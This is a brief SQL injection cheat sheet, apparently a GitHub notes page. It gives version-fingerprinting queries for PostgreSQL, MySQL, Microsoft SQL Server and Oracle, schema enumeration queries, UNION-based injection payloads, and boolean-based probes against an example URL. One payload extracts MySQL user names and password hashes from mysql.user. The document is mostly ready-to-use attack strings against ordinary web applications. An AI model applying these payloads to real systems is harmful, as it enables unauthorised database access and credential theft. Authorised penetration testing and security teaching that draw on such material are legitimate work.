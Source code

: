 <br>

#### DATABAE-TYPE-VERSION
``` sql
SELECT version()  --> PostgreSQL 
SELECT @@version  --> Microsoft, MySQL
SELECT * FROM v$version  --> Oracle  
SELECT BANNER FROM v$version --> Oracle
```

#### DATABASE CONTENT
```sql
--- ORACLE (no information schema)
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = '<table-name>'

--- PostgreSQL
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = '<table-name>'

--- MySQL
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = '<table-name>'

--- Microsoft
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = '<table-name>'


SELECT schema_name from information_schema.schemata
SELECT table_name from information_schema.table where table_schema='foo' --
SELECT column_name from information_schema.columns where table_schema='foo' and table_name='bar' -- 
SELECT 1,group_concat(User,0x3a,Password),3 from mysql.user --

```
#### UNION BASED
```sql
' UNION SELECT NULL,NULL,NULL --  null is used because it must return the same data type
' UNION SELECT 1,2,3 --
' UNION SELECT 'foo',null,null -- check in which column we can inject a string
' UNION SELECT 'foo' || ':' || 'bar',null -- display multiple values in the same column
' UNION SELECT 'foo' ||  '0x3a' || 'bar',null  
' UNION SELECT group_concat(foo,bar),null --
```

#### BOOLEAN BASED
```sql
http://example.com/item?id=1 AND 1=1 -- except normal req
http://example.com/item?id=1 AND 1=2 -- except error 
http://example.com/item?id=1 AND LENGTH(@@hostname)=1 -- expect no error
http://example.com/item?id=1 AND LENGTH(@@hostname)=N -- expect error
```
